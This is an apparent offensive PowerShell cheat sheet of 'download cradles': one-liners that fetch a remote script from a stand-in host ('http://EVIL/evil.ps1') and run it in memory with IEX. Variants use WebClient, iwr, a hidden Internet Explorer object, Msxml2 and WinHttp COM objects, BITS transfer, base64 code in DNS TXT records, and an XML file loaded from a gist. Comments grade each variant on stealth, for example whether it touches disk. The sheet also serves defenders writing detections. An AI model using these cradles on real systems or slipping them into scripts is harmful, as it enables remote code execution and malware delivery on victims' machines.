 # normal download cradle
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")

# PowerShell 3.0+
IEX (iwr 'http://EVIL/evil.ps1')

# hidden IE com object
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r

# Msxml2.XMLHTTP COM object
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText

# WinHttp COM object (not proxy aware!)
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText

# using bitstransfer- touches disk!
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r

# DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
#   code to execute needs to be a base64 encoded string stored in a TXT record
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))

# from @subtee - https://gist.github.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex